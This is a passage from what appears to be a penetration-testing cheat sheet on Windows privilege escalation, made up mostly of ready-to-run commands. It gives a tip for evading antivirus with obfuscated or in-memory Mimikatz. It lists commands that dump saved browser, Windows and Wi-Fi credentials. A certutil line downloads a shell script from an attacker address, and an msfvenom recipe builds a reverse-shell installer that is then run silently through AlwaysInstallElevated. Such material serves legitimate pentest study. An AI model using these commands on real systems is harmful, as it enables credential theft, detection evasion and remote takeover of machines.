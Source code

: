 > **Pro Tip**: To avoid AV detection, use an obfuscated version of Mimikatz or execute it in memory.

## Other Credential Extraction Tools

```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'    # Decrypt PowerShell credentials
cmdkey /list    # List saved credentials
.SharpChrome.exe logins /unprotect    # Retrieve Chrome credentials
.lazagne.exe -h    # View LaZagne help
.lazagne.exe all    # Run all LaZagne modules
Invoke-SessionGopher -Target WINLPE-SRV01    # Extract session info
```

## Wireless Credentials

```powershell
netsh wlan show profile    # View saved networks
netsh wlan show profile "Can'tHackThis" key=clear    # Get wireless passwords
```

## Other Useful Commands

### File Transfer
```powershell
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
certutil -encode file1 encodedfile
certutil -decode encodedfile file2
```

## AlwaysInstallElevated

```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
msiexec /i c:\users\lafi\desktop\aie.msi /quiet /qn /norestart
```

## Scheduled Tasks

```powershell
schtasks /query /fo LIST /v
Get-ScheduledTask | select TaskName,State
```

## Permissions and Descriptions

```powershell
.accesschk64.exe /accepteula -s -d C:\Scripts
Get-LocalUser
Get-WmiObject -Class Win32_OperatingSystem | select Description
```

